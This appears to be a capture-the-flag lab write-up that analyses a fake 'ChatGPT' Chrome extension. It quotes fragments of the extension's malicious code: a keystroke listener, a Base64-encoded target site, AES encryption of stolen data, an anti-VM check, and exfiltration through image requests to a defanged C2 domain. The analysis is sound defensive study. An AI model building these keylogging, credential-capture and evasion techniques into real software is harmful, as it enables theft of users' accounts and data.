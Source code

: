 # FakeGPT

## Scenario
Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

Your task is to perform a thorough analysis of this extension identify its malicious components.

## Questions


### 1. Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

We are given a copy of this Chrome extension to analyse.

The main file is the `app.js`, which we can read through to see that it's a keylogger:

```js
document.addEventListener('keydown', function(event) {
            var key = event.key;
            exfiltrateData('keystroke', key);
        });
```

Below, we can also see that it's using `CryptoJS` to encrypt the payload, specifically by Base64 encoding the data.

This is our answer: `base64`


### 2. Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

We see a B64 encoding `targets` array: `d3d3LmZhY2Vib29rLmNvbQ==`.

This var is used in the next line, to match against the site visited in the browser.

Decoding this: `echo -n "d3d3LmZhY2Vib29rLmNvbQ==" | base64 -d`, we get `www.facebook.com`


### 3. Which type of HTML element is utilized by the extension to send stolen data?

In the `sendToServer` function, we see it creating an image with the source of the C2 server with the payload as a URL param.

The `<img>` HTML element is used.

### 4. What is the first specific condition in the code that triggers the extension to deactivate itself?

In the `loader.js`, we see it runs a somewhat poor check to tell if the extension is being loaded in a virtual environment.

The first of these checks is: `navigator.plugins.length === 0`

### 5. Which event does the extension capture to track user input submitted through forms?

This is just a basic JS question, and we see in `app.js` that it's adding an event listener on the `submit` event.

The `submit` event is used when you submit form data, such as username and password fields.

### 6. Which API or method does the extension use to capture and monitor user keystrokes?

Similar to the previous question, we see a `keydown` listener created in `app.js` which gets triggered, as the name suggests, when a key is pressed.

We can see that they are capturing the pressed keys as `var key`

### 7. What is the domain where the extension transmits the exfiltrated data?

We saw this domain earlier when inspecting the method of exfil: `Mo[.]Elshaheedy[.]com`

### 8. Which function in the code is used to exfiltrate user credentials, including the username and password?

`exfiltrateCredentials(username, password);`

### 9. Which encryption algorithm is applied to secure the data before sending?

`AES`, as seen in the line: `const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });`

### 10. What does the extension access to store or manipulate session-related data and authentication information?

In the `manifest.json`, we can read the list of permissions 'required' by the extension. The one relating to this question is `cookies`
